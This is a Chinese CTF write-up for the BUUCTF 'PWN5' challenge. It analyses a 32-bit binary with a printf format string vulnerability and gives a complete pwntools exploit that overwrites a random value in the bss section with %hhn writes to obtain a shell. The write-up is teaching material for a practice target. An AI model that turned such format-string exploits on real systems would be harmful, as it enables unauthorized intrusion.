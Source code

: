 ```yaml
---
author: 
  name: Zephyr
title: 第五空间2019 决赛 PWN5
date: 2022-3-19 21:02:02
permalink: /pages/2e9547494524d18d
tags: 
  - buuctf
  - pwn
  - FormatString
---
```


# 第五空间2019 决赛 PWN5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int fd; // ST14_4
  int result; // eax
  int v4; // ecx
  unsigned int v5; // et1
  char nptr; // [esp+4h] [ebp-80h]
  char buf; // [esp+14h] [ebp-70h]
  unsigned int v8; // [esp+78h] [ebp-Ch]
  int *v9; // [esp+7Ch] [ebp-8h]

  v9 = &a1;
  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  v5 = __readgsdword(0x14u);
  v4 = v5 ^ v8;
  if ( v5 != v8 )
    sub_80493D0(v4);
  return result;
}
```

程序运行时在unk_804C044处写入随机数，在最后一次输入结束后，若与unk_804C044处的随机数相等，可获得shell

## 思路分析

1. 目前信息
   - 第一次输入处存在格式化字符串漏洞
   - PIE关闭
   - unk_804C044是在bss段，地址可确定
1. 问题
   - 需要绕过与随机数对比的判断
3. 解决思路
   - 通过printf的格式化字符串漏洞，使用%?$hhn的方式逐字节修改unk_804C044的值，在最后一次输入时传入对应的值，通过自己与自己的比较绕过判断获得shell

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
io = remote('node4.buuoj.cn', 25502)
# io = process(pwnfile)
bss_804C044 = 0x804C044
payload = flat([bss_804C044, bss_804C044+1, bss_804C044+2,bss_804C044+3, "%10$hhn%11$hhn%12$hhn%13$hhn"])
# 逐字节修改bss_804C044，printf在打印格式化字符串之前一共打印了16个，修改后bss_804C044的值应为0x10101010
io.sendlineafter('name:', payload)
io.sendlineafter('passwd:', str(0x10101010))
io.interactive()
```